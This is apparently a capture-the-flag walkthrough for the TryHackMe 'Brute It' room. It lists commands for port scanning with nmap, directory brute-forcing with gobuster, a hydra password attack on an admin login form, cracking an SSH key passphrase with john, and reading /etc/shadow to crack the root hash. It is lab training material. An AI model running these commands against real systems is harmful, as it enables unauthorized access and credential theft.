 ```yaml
---

title: Walkthrough - Brute It
published: true
---
```


Learn how to brute, hash cracking and escalate privileges in this box!

[https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

* * *

## Search for open ports using nmap. How many ports are open?

- ``sudo nmap -Pn -sS -p- -T4 10.10.241.208 -vvv``

* * *

## What version of SSH is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## What version of Apache is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Which Linux distribution is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Search for hidden directories on web server. What is the hidden directory?

- ``gobuster dir -u http://10.10.241.208 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --no-error``

* * *

## What is the user:password of the admin panel?

- Source code: ``<!-- Hey john, if you do not remember, the username is admin -->``
- ``hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.241.208 http-post-form -m "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"``

* * *

## Crack the RSA key you found. What is John's RSA Private Key passphrase?

- ``ssh2john id_rsa > josh.hash && john john.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

* * *

## user.txt

- cat user.txt

* * *

## Web flag

- you get this in the ``/admin/`` panel after login

* * *

## What is the root's password?

- sudo cat /etc/shadow
- copy to attacker and run john with rockyou

* * *

## root.txt

- cat /root/root.txt

* * * 
